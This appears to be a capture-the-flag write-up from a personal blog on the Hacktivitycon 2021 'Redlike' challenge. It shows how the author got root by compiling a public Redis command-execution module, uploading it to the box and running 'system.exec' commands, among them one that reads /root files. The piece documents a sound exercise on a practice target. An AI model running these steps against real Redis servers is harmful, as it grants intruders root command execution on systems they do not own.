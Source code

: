 +++
title = "Redlike (Redis PrivEsc) Hacktivitycon 2021 Writeup [Alternate Approach]"
date = "2021-09-19T20:59:21+05:30"
author = ""
authorTwitter = "" #do not include @
cover = "https://miro.medium.com/max/788/0*wj44yAjifjt6VlCP.png"
tags = ["ctf", "hacktivitycon", "hackerone", "redis", "root"]
showFullContent = false

+++

After I read write-ups by other hackers of this challenge, I found out that most of them solved it with adding SSH keys, and I did it by installing redis module, so here is my approach.

As we start the challenge we get ssh login to start with, in privilege escalation just like everyone else I started with [linpeas.sh](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) after analyzing the results of linpeas I realised soon there is nothing much in this box other than redis.

{{< image src="/images/redlike/2021-09-19_21-14_1.png" position="center" style="border-radius: 5px;" >}}

So I started with checking `redis-server` and `redis-cli` versions.

{{< image src="/images/redlike/2021-09-19_21-14.png" position="center" style="border-radius: 5px;" >}}

Then after some research I came across this redis module.

```url
https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
```

I clone and compiled the module in my VPS and uploaded it to the host.

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
cd RedisModules-ExecuteCommand
make
scp -P 30341 module.so user@challenge.ctf.games:/tmp/
```

Then I loaded the module and I was able to executed the command as `root` and read the flag.

```bash
redis-cli
MODULE LOAD /tmp/module.so
system.exec "id"
system.exec "ls /root/"
system.exec "cat /root/flag.txt"
```

 {{< image src="/images/redlike/2021-09-19_21-38.png" position="center" style="border-radius: 5px;" >}}
